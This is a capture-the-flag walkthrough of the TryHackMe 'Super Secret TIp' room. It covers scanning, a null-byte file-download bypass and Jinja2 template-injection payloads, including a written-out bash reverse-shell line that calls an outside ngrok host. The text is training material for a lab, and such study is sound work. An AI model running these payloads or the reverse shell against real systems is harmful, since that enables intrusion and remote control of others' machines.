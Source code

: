# 🚀 Super Secret TIp - TryHackMe
🔗 https://tryhackme.com/room/supersecrettip

- First this you need to do is to do port scanning using NMAP or rustscan
```py
rustscan -a IP --ulimit 5000 
```
- You will find 2 open ports `22, 7777`
- Ignore SSH port and open `7777` port on your browser
- You will find a useless home page
- Use **gobuster** or **dirb** to do directory scanning, it might take a little bit on the gobuster small wordlist (word order ~5600)
```python
gobuster dir -u http://10.10.150.50:7777 -w '/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt' -t 50
```
- It will find `/cloud` and `/debug`
- Open `/cloud` page, you will find a cloud/download kind-of page, you have an input field where you can download a custom name file of your choice (if it's found on the server ofc!) or choose a file from a list (you can choose both but the custom file name will not work then, you can use Burp to fix the params or use only custom file name field)
- Usually Python Flask application files are named either `app.py` or `source.py`, in this challenge it's named `source.py` hence why the custom field has a placeholder of `s` as a hint. Type in that in the custom field and hit download!  BUT! you can't! you can only type 6 characters (which is another hint for file name length -- without exntetion) in that input field! use `burp` to bypass it! there you go, you bypassed this very simple client-side restriction.
- You will get the source code!! VOILAA now it's much better 🚀
- You will find the hidden pages `/debug` and `/debugresult` alongside with the filteration functions etc.
- Visit `/debug`, a placeholder of `1337 * 1337` is shown in the input field, an indicator for **SSTI**! (hence the room name SuperSecretTIp)
- However, that debug page requires a password! look back at the source code, you will find a way to download a file that ends with `.txt`, if you're sherlock holmes like enough you will actually find that file name in the first few lines.. `supersecrettip.txt`, download it!
- Type that in `/cloud` input field and you will get an XORed password! hmm what could be the key! you can brute force but I bet if you can find the key with any common wordlists out there ;) to find out the key, take a look at the source code, there are 2 custom libraries being imported with a little hint '# .' which means they're local and in the same app folder! but source code only allows `.txt` files and `source.py` to be downloaded so how will we download `debugpassword.py` (`ip.py` for later)? **NULL BYTE**!! simply use this as the download param `download=debugpassword.py%00.txt` an VOILAA!! you will get the XOR key! now you can use the debug page!
- Try multiple ssti payloads or possibly use [SSTImap](https://github.com/vladko312/SSTImap) tool (didn't try that) you will find that the syntax is `{{7*7}}`!
- GREAT! now let's craft the payload, REMEMBER that we have some filters that restrict the use for some caracters such as `'` and `&`, the latter is important BUT we can bypass that!
- There are probably other solutions here but here is mine:
  - I use [revshells.com](revshells.com) to get my reverse shell payload (my goal)
  - `bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/18676 0>&1`
  - Grab some payloads from [ssti-payloads](https://github.com/payloadbox/ssti-payloads)/[hacktricks](https://book.hacktricks.xyz/welcome/readme)
  - I found this one useful for me 
  - `{{config.__class__.__init__.__globals__["os"].popen("ls")}}`
  - Now let's put our revshell
  - `{{config.__class__.__init__.__globals__["os"].popen("bash -c \"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/18676 0>&1\"")}}`
  - Don't forget to put your revshell payload inside `bash -c ""` otherwise an error will be thrown
  - Now we have an issue with `&` how can we bypass that? – you remember **String to ASCII**? cool! with python do `ord('&')` will result `38`, to get the character back from that ASCII number use `chr(38)` COOL!
  - Now since `chr` function is built in, we will try this payload to find out where we can find it
  - `{{config.__class__.__init__.__globals__}}` this will result in a long dictionary, one of the items is `__builtins__` which contains the `chr` function!